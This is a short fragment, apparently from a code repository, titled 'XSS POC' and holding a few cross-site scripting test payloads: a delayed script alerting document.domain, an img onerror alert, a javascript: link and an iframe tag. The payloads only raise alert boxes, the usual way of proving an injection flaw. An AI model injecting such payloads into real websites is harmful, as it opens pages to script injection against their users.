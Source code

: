 XSS POC<script>function show(){alert(document.domain);}setTimeout(show, 3000);</script>
<img src="x" onerror="alert(1)">
<a href="javascript:alert(1);">ccc</a>
<iframe src="zzz">
